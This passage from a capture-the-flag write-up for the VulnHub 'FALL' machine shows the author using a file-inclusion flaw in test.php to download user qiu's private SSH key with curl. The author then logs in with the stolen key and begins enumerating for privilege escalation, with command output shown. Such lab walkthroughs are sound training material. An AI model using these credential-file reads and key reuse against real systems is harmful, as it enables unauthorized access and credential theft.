 **Let's download its SSH key and SSH into the machine via that key!**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:33:58(HKT)]
└> curl http://10.69.96.73/test.php --get --data-urlencode "file=/home/qiu/.ssh/id_rsa" > qiu_id_rsa
[...]
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:34:27(HKT)]
└> chmod 600 qiu_id_rsa
```

```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/digitalworld.local:FALL)-[2023.08.17|14:34:33(HKT)]
└> ssh -i qiu_id_rsa qiu@$RHOSTS
[...]
[qiu@FALL ~]$ whoami; hostname; id; ip a
qiu
FALL
uid=1000(qiu) gid=1000(qiu) groups=1000(qiu),10(wheel)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:c8:91:5a brd ff:ff:ff:ff:ff:ff
    inet 10.69.96.73/24 brd 10.69.96.255 scope global dynamic noprefixroute ens33
       valid_lft 1132sec preferred_lft 1132sec
    inet6 fe80::af86:ce1d:cf2a:e830/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

I'm user `qiu`!

**local.txt:**
```shell
[qiu@FALL ~]$ cat local.txt 
A low privilege shell! :-)
```

## Privilege Escalation

### qiu to root

After gaining initial foothold on a target machine, we need to escalate our privilege. To do so, we need to enumerate the system.

**Bash History in `qiu`'s home directory:**
```shell
[qiu@FALL ~]$ ls -lah
[...]
-rw-------  1 qiu  qiu  292 Sep  5  2021 .bash_history
[...]
```
